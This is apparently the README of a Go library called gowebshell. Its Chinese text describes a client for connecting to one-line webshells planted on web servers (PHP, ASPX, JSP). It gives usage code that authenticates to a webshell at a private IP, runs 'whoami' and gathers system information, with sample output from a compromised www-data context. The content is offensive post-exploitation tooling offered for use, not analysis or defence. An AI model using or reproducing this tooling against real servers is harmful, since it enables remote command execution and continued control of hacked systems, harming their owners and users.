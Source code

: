 # gowebshell

使用go连接常见一句话木马，进行文件管理和命令执行，获取基本信息等功能

## 快速使用

```shell
go get github.com/zyylhn/gowebshell
```

```go
//必须指定一句地址，和链接密码，其他选择性指定
webshell,err:=gowebshell.NewWebshell("http://172.16.95.24/test.php","cc123","",nil)
	if err!=nil{
		fmt.Println(err)
		return
	}
//执行命令，必须要执行命令的目录，命令和使用的shell，windows只能使用cmd，和脚本类型
	cmd,err:=webshell.ExecCommand("/usr","whoami","/bin/sh", gowebshell.PhpScriptCmd,nil)
	if err!=nil{
		fmt.Println(err)
		return
	}
//命令结果存在cmd的result中
	fmt.Println(cmd.Result)
//获取基本信息，指定脚本类型
  info,err:=webshell.GetBaseInfo(gowebshell.JspScriptBaseInfo,nil)
    if err!=nil{
      fmt.Println(err)
			return
    }
    fmt.Println(info)

```

以上会输出

```
www-data
&{/var/www/html / Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 www-data}

```

## TODO

- [x] 支持php
- [x] 支持aspx
  - [x] jscript执行
  - [ ] C#执行
- [x] 支持jsp
- [ ] 支持asp
- [x] 获取基本信息
- [x] 执行命令
- [ ] 文件管理
